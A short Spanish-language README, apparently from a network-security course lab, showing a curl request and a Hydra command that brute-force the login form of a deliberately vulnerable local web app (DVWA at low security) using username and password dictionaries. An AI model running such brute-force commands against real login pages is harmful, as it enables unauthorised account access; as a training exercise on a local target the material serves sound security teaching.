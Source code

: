 # Laboratorio-2-Criptograf-a-y-Seguridad-en-redes
## CURL
El comando para generar la consulta es el siguieten:
¨¨¨
curl 'http://localhost/vulnerabilities/brute/?username=admin&password=password&Login=Login' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Accept-Language: es-419,es;q=0.9' \
  -H 'Cache-Control: max-age=0' \
  -H 'Cookie: PHPSESSID=rvepmt4r9nuvbn3vd1rndvu174; security=low' \
  -H 'Proxy-Connection: keep-alive' \
  -H 'Referer: http://localhost/vulnerabilities/brute/' \
  -H 'Sec-Fetch-Dest: document' \
  -H 'Sec-Fetch-Mode: navigate' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-User: ?1' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36' \
  -H 'sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="104"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Linux"' \
  --compressed
¨¨¨

## HYDRA
El comando para ejecutar hydra es el siguiente:
¨¨¨
hydra -L user.dic -P password.dic "http-get-form://localhost:80/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: PHPSESSID=rvepmt4r9nuvbn3vd1rndvu174; security=low;:F=Username and/or password incorrect."
¨¨¨
